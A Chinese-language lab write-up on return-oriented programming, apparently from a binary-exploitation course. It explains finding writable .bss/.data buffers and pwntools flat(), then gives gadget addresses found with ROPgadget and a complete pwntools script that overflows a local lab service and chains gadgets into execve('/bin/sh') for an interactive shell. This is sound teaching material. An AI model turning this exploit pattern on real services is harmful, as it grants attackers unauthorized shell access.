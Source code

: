 # Lab5 rop

## 先備知識

### How to find the writeable buffer

.bss和.data的地方都是可以當buffer寫入的，可以用`gdb$ readelf`來確認他們的address，但因為.bss前面可能會用到，所以我們可以先用x/x <.bss address>來確認可不可以寫，如果是0x00000000的話就是沒有被用到可以寫進去

### flat([])

- 用flat()前要先指定x86或是x64，若為x86則`context.arch="i386"`
- `flat([0x1234, 0x5678])` 等於 `p32(0x1234)+p32(0x5678)`

## simple ROP

execve("/bin/sh", NULL, NULL)

1. write to memory
將"/bin/sh"字串寫入到memory中
2. write to register
eax=0xb, ebx=address of "/bin/sh", ecx=0, edx=0
3. int 0x80

## Solve

1. file <binary> 先看他是否為static linking
2. ROPgadget - -binary <binary> > dump 將gadget dump下來等等可以查看
3. 找BOF return offset → 32，並且只能再塞68bytes gadget
4. gdb$ readelf 找buffer → .bss = 0x80eaf80, .data = 0x80ea060
5. write to memory
    1. 找 mov dword ptr [reg], reg
    `cat dump | grep "mov dword ptr \[edx], eax"` → 0x0809a15d : mov dword ptr [edx], eax ; ret
    2. 找 pop edx
    `cat dump | grep "pop edx"` → 0x0806e82a : pop edx ; ret
    3. 找 pop eax
    `cat dump | grep "pop eax"` → 0x080bae06 : pop eax ; ret
6. write to register

    找pop edx ; pop ecx ; pop ebx ; 
    `cat dump | grep "pop edx ; pop ecx ; pop ebx ;"`→ 0x0806e850 : pop edx ; pop ecx ; pop ebx ; ret

7. system call

    找int 0x80
    `cat dump | grep "int 0x80"` → 0x080493e1 : int 0x80

```python
from pwn import *

host = "127.0.0.1"
port = 8888
r  = remote(host, port)

context.arch = "i386" # x86
# context.log_level = "debug" # for debug mode

## bof
payload = 'a'*32 

## write to memory
buf = 0x80ea060 # .data
mov_edx_eax = 0x0809a15d
pop_edx = 0x0806e82a
pop_eax = 0x080bae06
rop = flat([pop_edx, buf, pop_eax, "/bin", mov_edx_eax])
rop += flat([pop_edx, buf+4, pop_eax, "/sh\x00", mov_edx_eax])
# print len(rop) # 40

## write to register
pop_edx_exc_ebx = 0x0806e850
rop += flat([pop_edx_exc_ebx, 0, 0, buf])
rop += flat([pop_eax, 0xb])

## system call
int_0x80 = 0x080493e1
rop += flat([int_0x80])
# print len(rop) #68

payload += rop
r.recvuntil(":")
r.sendline(payload)
r.interactive()
```
